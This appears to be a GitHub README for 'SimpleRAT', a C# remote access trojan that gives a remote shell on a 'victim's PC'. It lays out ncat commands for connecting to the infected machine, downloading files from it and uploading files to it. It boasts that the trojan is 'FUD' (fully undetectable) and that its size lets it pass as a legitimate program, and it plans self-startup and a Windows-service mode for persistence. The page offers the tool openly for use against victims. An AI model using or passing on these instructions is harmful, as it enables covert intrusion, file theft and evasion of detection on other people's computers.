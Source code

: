 # SimpleRAT

Self-contained RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows, Fully compatible with Netcat (tested with windows version). 
NO additional server setups for file downloads or uploads
NO additional dll's or configuration files 
Only one .exe and netcat on your side.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish and should be merged into exe after that by using provided tool), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file) and upload files on victim PC, no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)

### How to upload files:
1. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

2. Check if reverse shell is working (cd, dir)

3. Put RAT in listenning state by executing:
RAT upload file -p <path/to/file.exe>

Example: RAT upload file -p C:\Users\someuser\checkme\ConsoleApp4.exe

4. Send file through netcat on main port of your RAT

Example: ncat 192.168.88.230 8888 --send-only < ConsoleApp4.exe

Process:
![rat-upload](https://user-images.githubusercontent.com/53906830/110226904-37029180-7ef3-11eb-897b-8c7db2e9a581.png)

Currently RAT is FUD as it is small and simple, without any specific features.

## Downsides
1. High .exe application size (35 MB) 
2. High memory usage

![rat-memory](https://user-images.githubusercontent.com/53906830/110226932-73ce8880-7ef3-11eb-9f0e-b455832e95b4.png)

Both problems are because RAT is self-contained application with builded-in .NET runtime.
From one side those are problems for sure, from other side you could mask program with such size and memory usage as other legitimate one :)

### Features To Be Done: 

1. Self startup;
2. Automatic ports opening required for communication;
3. RAT as Windows Service (?)
